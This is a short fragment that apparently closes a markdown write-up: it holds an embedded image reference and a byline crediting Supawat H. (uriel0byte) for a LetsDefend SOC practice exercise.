

---

*Written by: Supawat H. (uriel0byte) | LetsDefend SOC Practice*
